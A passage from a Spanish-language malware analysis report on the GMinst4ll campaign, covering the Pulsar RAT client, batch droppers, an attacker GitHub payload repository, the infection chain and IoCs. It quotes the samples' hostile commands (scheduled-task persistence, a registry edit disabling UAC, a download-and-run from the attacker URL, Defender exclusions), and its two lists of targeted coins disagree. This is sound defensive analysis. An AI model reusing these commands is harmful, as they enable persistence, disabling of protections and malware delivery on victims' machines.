| `beket.rar` | `90a4e365...dd6` | `af5f5822...eb2` | 1.6 MB | RAR5 — contiene appy.exe .NET |
| `kamzat.exe` | `4c628433...840` | `3b943e50...41b` | 12.4 MB | PE64 — Python compilado |
| `maximusz.bat` | — | — | — | Batch — exclusiones Defender |
| `postevak.exe` | `ea9ca99f...e2` | `95a7412c...080` | 7.9 MB | PE64 — Python 3.13 compilado |
| `PROMOTIO.BAT` | — | — | — | Batch — downloader + persistencia |

> SHA256 completos en `03_IOCS_Y_DETECCION_GMINST4LL.md`

---

### 11.2 beket.rar — Contenido y Análisis

**Contenido:** Un único archivo `appy.exe` (1,950,208 bytes, PE32 .NET)  
**Contraseña:** Ninguna (sin cifrado)  
**Fecha interno:** 2026-02-08 15:35:39  

| Campo | Valor |
|-------|-------|
| SHA256 (appy.exe extraído) | `5b20cb36abbacc69ee5d0c7008f1ad081db2767625659b4bb8eba6ecc511bd2a` |
| MD5 | `d0064d8d5ba9e57d080d706fc9cb9246` |
| Tipo | PE32 (32-bit) — Mono/.NET assembly |
| Framework | .NET Framework 4.7.2 |
| **Familia identificada** | **Pulsar RAT v1.6.6.0** |

---

### 11.3 Pulsar RAT v1.6.6.0 — Análisis Profundo

**Pulsar** es un RAT (Remote Access Trojan) de código abierto escrito en C# / .NET, disponible públicamente en GitHub. Esta muestra (`appy.exe` dentro de `beket.rar`) es un **cliente compilado** con configuración C2 personalizada cifrada con AES-256.

#### Capacidades Confirmadas (por strings y estructura)

| Módulo | Capacidad |
|--------|-----------|
| **Keylogger** | `KeyLogger`, `GetKeyloggerLogsDirectory`, `Gma.System.MouseKeyHook` |
| **Robo de contraseñas** | `GetPasswords`, `EncryptedPassword`, `PotentiallyVulnerablePasswords`, `GetPastebinStatus` |
| **HVNC** | `DoInstallVirtualMonitor`, `DoUninstallVirtualMonitor`, `Helper.HVNC`, `VirtualMonitor` |
| **Escritorio remoto** | `RemoteDesktop`, `GDIEffects.Screen`, SharpDX DirectX completo |
| **Shell remoto** | `RemoteShell`, `Administration.RemoteShell` |
| **Proxy inverso** | `ReverseProxy`, `Administration.ReverseProxy` |
| **Gestor de archivos** | `FileManager`, `Administration.FileManager` |
| **Registro Windows** | `RegistryEditor`, `DoCreateRegistryKey`, `DoDeleteRegistryKey` |
| **Gestor de tareas** | `TaskManager`, `Administration.TaskManager` |
| **Grabación audio** | `NAudio.Core`, `NAudio.Wasapi`, `NAudio.WinMM` |
| **Webcam** | `AForge.Video.DirectShow`, `Messages.Webcam` |
| **Portapapeles** | `Monitoring.Clipboard` |
| **Chat remoto** | `FrmRemoteChat`, `RemoteChat` |
| **Arranque/startup** | `Administration.StartupManager`, `schtasks /create /tn ... /sc ONLOGON /rl HIGHEST /f` |
| **Clipper de wallets** | Regex para 9 criptomonedas (XMR detectado estáticamente, 8 inferidas de regex) |
| **TCP Connections** | `Administration.TCPConnections` |
| **Desinstalación** | `DoClientUninstall`, `DoClientReconnect`, `DoClientDisconnect` |
| **UAC** | `ClientManagement.UAC` |
| **WinRE** | `ClientManagement.WinRE` |

#### Wallet Clipper — Criptomonedas Objetivo

| Criptomoneda | Regex detectada |
|--------------|-----------------|
| Bitcoin (BTC) | `^(1\|3\|bc1)[a-zA-Z0-9]{25,39}$` |
| Litecoin (LTC) | `^(L\|M\|3)[a-zA-Z0-9]{26,33}$` |
| Ethereum (ETH) | `^0x[a-fA-F0-9]{40}$` |
| Monero (XMR) | `^4[0-9AB][1-9A-HJ-NP-Za-km-z]{93}$` |
| Solana (SOL) | `^[1-9A-HJ-NP-Za-km-z]{32,44}$` |
| Dash (DASH) | `^X[1-9A-HJ-NP-Za-km-z]{33}$` |
| Ripple (XRP) | `^r[0-9a-zA-Z]{24,34}$` |
| Tron (TRX) | `^T[1-9A-HJ-NP-Za-km-z]{33}$` |
| Bitcoin Cash (BCH) | `^(bitcoincash:)?(q\|p)[a-z0-9]{41}$` |

#### Librerías Embebidas (Costura.Fody)

`AForge` (visión artificial), `AForge.Video.DirectShow` (webcam), `Gma.System.MouseKeyHook` (hooks teclado/ratón), `NAudio` (audio), `SharpDX` + `Direct2D1` + `Direct3D11` + `DXGI` (HVNC DirectX), `protobuf-net` (serialización), `System.Collections.Immutable`, `System.Memory`

#### TAG del RAT
`8Ewy4tag9i7dw8n5uVKSL` — identificador de campaña/build embebido en el binario

#### Config C2 — Estado
La configuración C2 (hosts, puertos, clave AES, mutex, ruta instalación) está **cifrada con AES-256** en el ensamblado .NET. Requiere decompilación con **dnSpy/ILSpy** en VM Windows para extraer los valores en claro.

---

### 11.4 PROMOTIO.BAT — Análisis

**Función:** Dropper de persistencia + descargador de `kamzat.exe`

**Flujo:**
1. Bucle infinito de solicitud UAC hasta que el usuario acepta
2. Crea tarea programada: `schtasks /create /tn "Runtime Management Agent" /tr "%APPDATA%\SubDir\Service Runtime Management Agent.exe" /sc onlogon /delay 0002:00 /rl highest /f`
3. Desactiva UAC: `reg add "HKLM\...\EnableLUA" /d 0`
4. Descarga `kamzat.exe` desde GitHub: `Invoke-WebRequest -Uri 'https://github.com/boycots563/wlt56/raw/main/kamzat.exe'`
5. Ejecuta `kamzat.exe`
6. Se autoeliminan: `del "%~f0"`

**IoC nuevo:** Ruta de persistencia alternativa: `%APPDATA%\SubDir\Service Runtime Management Agent.exe`

---

### 11.5 maximusz.bat — Análisis

**Función:** Versión standalone del bloque de exclusiones de Defender (equivalente al fragmento en `max.vbs`)

**Flujo:**
1. Solicitud UAC en bucle hasta obtener privilegios
2. `Add-MpPreference -ExclusionPath 'C:\', ...` — mismas exclusiones que `max.vbs`
3. `Add-MpPreference -ExclusionProcess 'appy.exe', 'Service Runtime Management Agent.exe'`
4. Crea flag: `%ProgramData%\flag1_errorlog.txt`
5. Se autoelimina

---

### 11.6 Relaciones entre Payloads del Repo

```
boycots563/wlt56 (GitHub C2)
├── PROMOTIO.BAT         → descarga kamzat.exe + persistencia "Runtime Management Agent"
├── maximusz.bat         → exclusiones Defender (usado por max.vbs también)
├── kamzat.exe           → PE64, Python compilado, ~12.4 MB (stealer/RAT principal, variante 1)
├── Windows Compatibility Agent.exe → PE64, Python, ~12.4 MB (stealer/RAT, variante 2, llamado por rodendron.vbs)
├── Windows Compatibility Agent Host.exe → PE64, Python, ~8.5 MB (host/loader del agente)
├── postevak.exe         → PE64, Python 3.13, ~7.9 MB (función desconocida, posible exfiltrador)
├── appy.exe (repo)      → PE64, 719 KB, launcher PowerShell/VBS
└── beket.rar            → contiene appy.exe (.NET PE32) = Pulsar RAT v1.6.6.0
     └── appy.exe        → Pulsar RAT Client, .NET 4.7.2, AES-256, wallet clipper (9 monedas)
```

---

### 11.7 Cadena de Infección Completa Actualizada

```
GMinst4ll 2.03.rar (señuelo software)
    └─► TREZ_cor 4.52.3.exe (stealer principal — Python compilado)
         ├─► Pastebin C2 (config: token Telegram, URL Dropbox)
         ├─► SystemSP.rar (Dropbox, pw: zoroz)
         │    └─► max.vbs → UAC + Persistencia Winlogon + Exclusiones Defender
         │         └─► babuchen.bat → Mata 34 AVs + Destruye WUpdate + Reinicio
         │              └─► rodendron.vbs (RunOnceEx post-reinicio)
         │                   ├─► Descarga Windows Compatibility Agent.exe (GitHub)
         │                   │    └─► Stealer/RAT Python (kamzat.exe variante)
         │                   ├─► Tarea "Runtime Management Agent" → WinMainTELE.vbs
         │                   └─► WinStatChecking.bat → Bloquea 66 dominios AV en hosts
         └─► Exfiltración vía Telegram Bot buchstys4_bot → @KJL4999S (chat: 6820575341)

GitHub C2 (boycots563/wlt56) — repositorio de payloads:
    ├─► kamzat.exe / Windows Compatibility Agent.exe → stealer Python activo
    ├─► postevak.exe → función pendiente (Python 3.13)
    └─► beket.rar/appy.exe → Pulsar RAT v1.6.6.0 (.NET) con wallet clipper (XMR detectado, 9 inferidas)
```

---

## 12. Pulsar RAT — Análisis Técnico (appy.exe)

### 12.1 Muestra

**Archivo:** `appy.exe` (extraído de `beket.rar` → `GMinst4ll 2.03.rar`)
- Hash SHA256: `5B20CB36ABBACC69EE5D0C7008F1AD081DB2767625659B4BB8EBA6ECC511BD2A`
- Tamaño: 1,950,208 bytes
- Tipo: .NET assembly (Pulsar RAT Client v1.6.6.0)
- Framework: .NET 4.7.2
- Obfuscación: ConfuserEx (variante personalizada)

### 12.2 Capacidades Confirmadas

**Wallet Clipper (XMR detectado estáticamente, 9 inferidas de regex):**
- Bitcoin (BTC)
- Ethereum (ETH)
- Litecoin (LTC)
- Dogecoin (DOGE)
- Monero (XMR)
- Ripple (XRP)
- Dash (DASH)
- Bitcoin Cash (BCH)
- Tether (USDT)

**Capacidades de robo:**
- Credenciales Firefox (NSS library)
- Credenciales Chrome (DPAPI encrypted_key)
- Clipboard hijacker
- Keylogger
- Captura de audio (micrófono/altavoces)
- Exfiltración de archivos (ZIP)
- Manipulación de registro (Registry)

**Anti-evasión:**
- Check anti-VM por puertos TCP (`PortConnectionAntiVM`)
- Check anti-debugging (`ProcessDebugPort`, `ProcessExceptionPort`)
- Manipulación de tokens de proceso
- Manipulación de LDT (Local Descriptor Table)
- Manipulación de puertos I/O
- Manipulación de flags de CPU

### 12.3 Cifrado de Configuración C2

**AES-GCM (Galois/Counter Mode):**
- Blob principal: 1808 bytes (offset 0x000B9CC8)
- Blob secundario: 736 bytes (offset 0x0006BF6C)
- Nonce blob 1: `bca1e44534eb958494769c76`
- Nonce blob 2: `a1273390492264e21bc1ff3c`
- Tag blob 1: `e84905f915bd6914efc35750f8beaa99`
- Tag blob 2: `c6752c9475ec207f8b645de5fceac0f3`

**Campos internos (ofuscados):**
- `Field[1497]:FUeRrUAjh9FA` → `EncryptionKey`
- `Field[1500]:L6kE5zXkE8` → `Signature`
- `Field[1498]:sfRGNA2Id1TUuxp` → `Tag`

### 12.4 Estado del Análisis de Config C2

**Intentos de extracción:**
- ❌ Análisis estático (dnfile) — Clave no estáticamente recuperable
- ❌ Patch anti-VM + dump de memoria — Más checks anti-VM, config no descifrada
- ❌ Desofuscación (de4dot) — Protector no reconocido, strings no desencriptados
- ⚠️ Hooking runtime (x64dbg/dnSpy) — No viable (requiere GUI)

**Conclusión:** Configuración C2 no recuperable con herramientas disponibles en entorno WinRM. Requiere entorno con GUI para debugging interactivo.

### 12.5 IoCs Específicos de Pulsar RAT

**Strings anti-VM/anti-debugging (desofuscados):**
- `PortConnectionAntiVM`, `ProcessDebugPort`, `ProcessExceptionPort`
- `ProcessAccessToken`, `ProcessLdtInformation`, `ProcessIoPortHandlers`
- `FlagsManipulationInstructions`

**Strings C2/funcionalidad (desofuscados):**
- `connectedClient`, `serverCertificate`, `DOMAIN_PASSWORD`
- `EncryptedPassword`, `GetExtendedTcpTable`, `SetTcpEntry`
- `BCRYPT_AUTHENTICATED_CIPHER_MODE_INFO` (AES-GCM)

**Strings ofuscados (probable config C2):**
- `x9lmnrXpyOpjkOzqZhj0yg1yripd`, `KM4R1EqIPoqFwt1z6n5HlvUnv7nJa`
- `VgZ2El2H8H4iPQfAZgKz2s6d`, `IpgbRZrBAZ71gxQJ7PnBnSQsoW45h`
- 8 strings adicionales no renombrados por de4dot

---

**Documentos relacionados:**
- `01_INFORME_PRINCIPAL_GMINST4LL.md` - Informe principal
- `02_BITACORA_FASES_GMINST4LL.md` - Bitácora de fases
- `03_IOCS_Y_DETECCION_GMINST4LL.md` - IoCs y reglas de detección
- `05_PENDIENTES_Y_PLAN_GMINST4LL.md` - Trabajo pendiente
